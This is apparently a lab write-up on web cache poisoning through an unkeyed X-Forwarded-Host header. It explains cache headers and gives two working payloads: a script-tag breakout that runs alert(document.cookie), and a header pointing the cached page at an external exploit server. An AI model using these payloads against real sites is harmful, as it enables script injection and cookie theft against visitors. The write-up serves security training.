






# Web cache poisoning with an unkeyed header
# Objective
This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

# Solution
## Analysis
||
|:--:| 
| *Normal request* |
||
| *Request with extra header* |

### Cache headers explaination
```
Cache-Control: max-age=30   --> Response is cached for 30s
Age: 2                      --> Cached response is 2s old
X-Cache: hit                --> Response comes from cache
X-Cache: miss               --> Response does not come from cache
```

### X-Forwarded-* headers explaination
```
X-Forwarded-For     --> Tracks the original client IP address and the IP addresses of any intermediate proxies.
X-Forwarded-Host    --> Maintains the original host requested by the client.
X-Forwarded-Proto   --> Indicates the protocol (HTTP or HTTPS) used by the client.
X-Forwarded-Port    --> Specifies the port number used by the client to connect to the proxy.
```

## Exploitation
### Poisoning without using exploit server
Paylaod (extra header):
```
X-Forwarded-Host: testtest"></script><script>alert(document.cookie)//
```

||
|:--:| 
| *Poisoned cache* |

### Poisoning using exploit server
Paylaod (extra header):
```
X-Forwarded-Host: exploit-0a65007d038337e3830468450117007e.exploit-server.net
```

||
|:--:| 
| *Exploit server configuration* |
||
| *Poisoned cache* |
||
| *Result* |